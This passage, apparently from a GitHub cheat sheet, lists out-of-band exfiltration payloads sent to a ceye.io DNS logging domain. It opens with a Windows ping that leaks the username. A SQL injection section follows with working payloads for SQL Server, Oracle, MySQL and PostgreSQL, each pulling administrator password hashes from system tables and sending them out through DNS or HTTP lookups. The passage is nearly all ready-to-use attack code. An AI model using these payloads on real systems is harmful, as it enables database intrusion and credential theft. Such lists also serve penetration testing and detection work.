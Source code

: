 ##### ii. windows

```bash
ping %USERNAME%.b182oj.ceye.io
```

#### 0x01 SQL Injection

##### i. SQL Server

```sql
DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1
master.dbo.fn_varbintohexstr(password_hash)
FROM sys.sql_logins WHERE name='sa')
+'.ip.port.b182oj.ceye.io';
EXEC('master..xp_dirtree
"\\'+@host+'\foobar$"');
```

##### ii. Oracle

```sql
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```

##### iii. MySQL

```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

##### iv. PostgreSQL

```sql
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```
